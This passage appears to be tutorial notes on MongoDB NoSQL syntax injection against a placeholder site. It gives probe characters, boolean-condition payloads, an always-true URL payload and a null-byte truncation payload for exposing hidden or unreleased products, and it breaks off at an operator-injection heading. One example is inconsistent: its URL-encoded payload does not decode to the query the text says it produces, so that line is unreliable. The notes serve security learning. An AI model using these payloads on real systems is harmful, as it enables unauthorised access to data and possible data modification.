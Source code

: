 2. **Testing Individual Characters**:
   - Inject a single character, such as a single quote (`'`), to form:
     ```
     this.category == '''
     ```
   - If this causes a syntax error or response change, the input may be vulnerable.
   - Confirm by escaping the quote (e.g., `\''`) to check if the query executes normally:
     ```
     this.category == '\''
     ```

3. **Testing Conditional Behavior**:
   - Send two requests to test boolean conditions:
     - False condition: `' && 0 && 'x`
     - True condition: `' && 1 && 'x`
   - If the responses differ, it suggests the application processes injected conditions, indicating a vulnerability.

### Exploiting Syntax Injection
- **Override Conditions**:
  - Inject a condition that always evaluates to true, such as:
    ```
    https://insecure-website.com/product/lookup?category=fizzy'%7c%7c%31%7c%7c%27
    ```
    This creates:
    ```
    this.category == 'fizzy'||'1'=='1'
    ```
    This returns all products, bypassing restrictions (e.g., showing hidden categories).

- **Null Character Injection**:
  - If the query includes additional restrictions, like:
    ```
    this.category == 'fizzy' && this.released == 1
    ```
  - Inject a null character (`%00`) to truncate the query:
    ```
    https://insecure-website.com/product/lookup?category=fizzy'%00
    ```
    This becomes:
    ```
    this.category == 'fizzy'' && this.released == 1
    ```
    MongoDB may ignore everything after the null, bypassing the `released == 1` condition and showing unreleased products.

**Warning**: Injecting always-true conditions can affect multiple queries, potentially causing unintended data modifications or deletions.

---

## Detecting and Exploiting Operator Injection in MongoDB
